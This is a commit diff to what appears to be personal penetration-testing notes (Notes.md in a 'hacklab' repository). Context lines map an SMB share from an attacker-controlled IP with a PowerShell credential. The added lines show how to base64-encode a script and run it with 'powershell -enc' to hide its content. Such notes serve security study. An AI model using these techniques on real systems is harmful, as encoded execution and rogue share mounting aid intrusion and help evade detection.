

Before and after one commit to Bruno-Macedo/hacklab, a Markdown page: Notes.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
encode command and execute command

````diff
--- a/Notes.md
+++ b/Notes.md
@@ -327,6 +327,13 @@ $cred = New-Object System.Management.Automation.PSCredential('username', $pass)
 
 # generate smb connection
 New-PSDrive -Name user -PSProvider FileSystem -Credential $cred -Root\\$IPATTACKING\ShareName
+
+# Encode command
+cat file | iconv -t utf-16le | base64 -w 0 = result
+
+# Execute enconded command
+echo powershell -enc result
+
 ```
 
 - Impackt
````
